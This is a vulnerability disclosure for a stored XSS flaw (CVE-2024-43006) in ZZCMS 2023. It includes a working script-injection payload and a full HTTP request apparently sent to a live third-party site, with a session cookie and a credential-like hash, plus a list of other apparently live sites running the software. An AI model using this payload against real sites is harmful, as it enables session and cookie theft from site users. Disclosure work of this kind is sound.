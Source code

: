 # ZZCMS 2023 储存型XSS ask/show.php

## CVE-ID

**CVE-2024-43006**

## Vulnerability type 
Cross Site Scripting (XSS)

## Vendor of the product(s)
http://www.zzcms.net/about/download.html



## Affected product(s)/code base

## Product	* Version	
ZZCMS
<=2023(latest)

## Optional

Has vendor confirmed or acknowledged the vulnerability? Yes 

## Attack type info 
Remote

Information Disclosure

## Affected component(s)

ask/show.php line 21 ,after the content parameter is obtained from the database, it passes through the stripfxg() function, which deletes the original escape of html characters, resulting in XSS vulnerability.
## Attack vector(s)

POST /user/ask_edit.php?action=add HTTP/1.1
Payload: classid=1&title=1112221&content=</div><ScRipt>alert(1)</ScRipt><div>&img=&jifen=0&Submit=%E5%8F%91%E5%B8%83

Note that the XSS can be seen in ask/show_{newsid}.html,if you brose into /ask,you can see all the asks include the test XSS one.Goto the ask/ and clink into the ask we just published,the XSS is executed.
## Suggested description of the vulnerability for use in the CVE info

A stored cross-site scripting (XSS) vulnerability exists in ZZCMS2023 in the ask/show.php file at line 21. An attacker can exploit this vulnerability by sending a specially crafted POST request to /user/ask_edit.php?action=add, which includes malicious JavaScript code in the 'content' parameter. When a user visits the ask/show_{newsid}.html page, the injected script is executed in the context of the user's browser, leading to potential theft of cookies, session tokens, or other sensitive information.

## Discoverer(s)/Credits info

GKDf1sh



## Reference(s) info

https://www.88zsw.com

http://www.818yyzs.com

https://www.qibai.cc

http://www.weixumu.cn

http://www.eshouyao.com

http://www.66988.tv/

http://www.dl580.tv/

## Additional information

POST /user/ask_edit.php?action=add HTTP/2
Host: www.88zsw.com
Cookie: PHPSESSID=lcpl5f7h3c8eiagjhtbael9ugi; UserName=admin1; PassWord=21232f297a57a5a743894a0e4a801fc3; userid=1493
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://www.88zsw.com
Referer: https://www.88zsw.com/user/ask.php?action=add
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

classid=1&title=1133321&content=</div><ScRipt>alert(1)</ScRipt><div>&img=&jifen=0&Submit=%E5%8F%91%E5%B8%83


Goto the ask/ and click into the ask we just published,the XSS is executed.
